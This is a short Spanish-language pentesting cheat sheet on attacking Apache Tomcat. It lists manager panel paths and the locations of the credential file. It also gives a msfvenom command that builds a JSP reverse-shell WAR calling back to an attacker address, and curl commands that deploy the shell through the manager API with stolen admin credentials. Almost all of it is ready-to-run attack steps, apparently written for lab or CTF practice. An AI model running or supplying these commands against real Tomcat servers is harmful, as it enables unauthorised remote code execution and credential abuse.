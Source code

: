 # Tomcat 

Tags: #Tomcat #Windows

## Ruta en la web

```bash 
/manager/html                # Ruta tipica que contiene un panel de autenticacion en donde se encuentra el panel de admin en Tomcat 
/host-manager/html           # Ruta alternativa 

/manager/status/             # Muestra la version de Tomcat         
```

## Ruta en consola

```bash 
/etc/tomcat9/tomcat-users.xml              # Archivo que contiene usuarios y sus passwd
/usr/share/tomcat9/etc/tomcat-users.xml    # Ruta alternativa
```

## Crear una aplicación para subirla desde el panel Tomcat  

```bash 
# En el panel de manager, encontramos una opción en donde podemos subir un archivo .war, por lo que hacemos lo siguiente:

❯ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.5 LPORT=443 -f war -o shell.war # Creamos nuestro archivo malicioso .war 

	# p = Payload
	# LHOST = Local Host (IP Atacante)
	# LPORT = Local Port 'Atacante'
	# f = Formato war
	# o = Exportar como 'shell.war'
```

## Subir una aplicación desde la consola con credenciales validas de 'admin'

```bash 
❯ curl -s -u 'username:passwd' -X GET "http://IP/manager/text/list"    # Listar aplicaciones existentes en Tomcat si tenemos credenciales validas 

❯ curl -s -u 'username:passwd' "http://IP/manager/text/deploy?path=/shell" --upload-file shell.war  # Desplegar la aplicacion creada anteriormente 
```
